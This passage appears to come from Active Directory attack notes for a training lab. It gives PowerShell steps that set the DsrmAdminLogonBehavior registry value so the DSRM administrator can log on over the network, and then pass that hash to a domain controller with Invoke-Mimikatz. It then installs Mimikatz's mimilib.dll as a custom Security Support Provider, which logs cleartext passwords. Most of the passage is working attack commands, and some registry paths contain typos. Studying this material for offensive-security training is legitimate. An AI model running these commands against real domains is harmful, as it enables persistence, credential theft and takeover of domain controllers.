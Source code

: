 Since it is the local administrator of the DC, we can pass the hash to authenticate.
But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash
```powershell
#Get a session as the DC
Enter-PSSession -Computername dcorp-dc
#check DSRM property
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"
#If DSRMAdminLognonBehariour attribute not created then create and set
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD -Verbose
#If already present but wrong value , then update
Set-ItemProperty -Name "DsrmAdminLogonBehavior" -Value 2
```

### <span style="color:#F1C232">4. Use below command to pass the hash</span>
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:dsrm-hash-goes-here /run:powershell.exe"'
```

### <span style="color:#F1C232">5. Now we can run commands on the DC</span>

```powershell
ls \\dcorp-dc\c$
```

# <span style="color:lightblue">Custom Security Support Provider (SSP)</span>

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are
* NTLM
* Kerberos
* Wdigest
* CredSSP

Mimikatz provides a custom SSP - mimilib.dll. The SSP logs start from the **next reboot** of the machine. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

## <span style="color:lightgreen">Mimikatz (How to setup the SSP)</span>

### <span style="color:#F1C232">Method 1</span>

Drop the mimilib.dll to system32 and add mimilib to `"HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages"`
```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Ccontrol\Lsa\OSconfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\control\Lsa\OSconfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\control\Lsa\ -Name 'Security Packages' -Value $packages
```
### <span style="color:#F1C232">Method 2</span>
